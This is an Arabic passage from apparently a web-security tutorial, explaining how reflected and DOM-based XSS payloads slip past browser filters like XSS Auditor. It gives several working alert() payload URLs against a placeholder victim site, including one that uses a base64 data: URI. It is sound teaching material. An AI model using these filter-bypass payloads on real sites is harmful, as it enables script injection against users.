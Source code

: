 #### **4.4.1: الإدخال داخل علامات HTML**
ناقل XSS شائع مثل `<svg/onload=alert(1)>` يتم حجبه بواسطة مرشحات المتصفح. لكن حذف علامة `>` (مثل `<svg/onload=alert(1)`) يتجاوز بعض المرشحات مثل XSS Auditor.

#### **4.4.2: الإدخال داخل خصائص علامات HTML**
يمكن تجاوز المرشحات عند الإدخال في خصائص HTML:
- `http://victim.site/inject?x=giuseppe"><svg/onload=alert(1)>`: يغلق الخاصية ويضيف سكربت.
- استخدام `data:`: `http://victim.site/inject?x=giuseppe"><a/href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=">` يتجاوز WebKit.

#### **4.4.3: الإدخال داخل علامات `<script>`**
الإدخال في متغيرات JavaScript (مثل `http://victim.site/inject?name=giuseppe";alert(1);//`) لا يتم تصفيته بواسطة المتصفحات، لأنه يُعتبر مشكلة من جانب الخادم.

#### **4.4.4: الإدخال داخل خصائص الأحداث**
خصائص الأحداث مثل `onclick` لا تُفحص بواسطة مرشحات المتصفح:
- `http://victim.site/inject?roomID=alert(1)` في `<button onclick="reserve(roomID);">` ينفذ السكربت.

#### **4.4.5: XSS المستند إلى DOM**
XSS المستند إلى DOM (مثل `http://victim.site/inject?next=javascript:alert(1)`) لا يتم اكتشافه بواسطة مرشحات المتصفح، لأنه يُعالج من طرف العميل. سيناريوهات أخرى مثل النواقل المجزأة أو XSS المتحور (mXSS) لا تُغطى أيضًا.

**الخلاصة:**
يشرح هذا القسم كيفية تجاوز مرشحات المتصفح باستخدام تقنيات مثل حذف علامات الإغلاق، الإدخال في خصائص HTML، أو استغلال XSS المستند إلى DOM. يركز على قيود المرشحات المدمجة في المتصفحات مثل XSS Auditor.

---
